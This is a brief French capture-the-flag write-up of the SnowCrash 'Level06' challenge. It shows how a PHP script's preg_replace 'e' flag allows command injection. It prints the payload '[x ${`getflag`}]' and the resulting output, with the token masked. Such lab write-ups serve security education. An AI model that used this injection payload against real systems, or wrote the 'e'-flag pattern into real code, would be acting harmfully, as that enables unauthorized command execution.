

# Level06

Il y a un script php dans le home.
Nous utilisons un beautifier pour avoir une version plus compréhensible. (https://beautifytools.com/php-beautifier.php)



Le script effectue des substitutions par regexs,
il remplace les crochets par des parenthèses et
utilise le flag 'e' dans une des regex ce qui est une faille de sécurité, car nous pouvons l'utiliser pour executer des commandes, en se servant de la syntaxe des variables pour contourner les différentes sécurités :

Nous éxécutons le script sur notre fichier /tmp/file

```bash
level06@SnowCrash:~$ cat /tmp/file
[x ${`getflag`}]

level06@SnowCrash:~$ ./level06 /tmp/file
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
 in /home/user/level06/level06.php(4) : regexp code on line 1

```
Le token sort dans l'erreur PHP.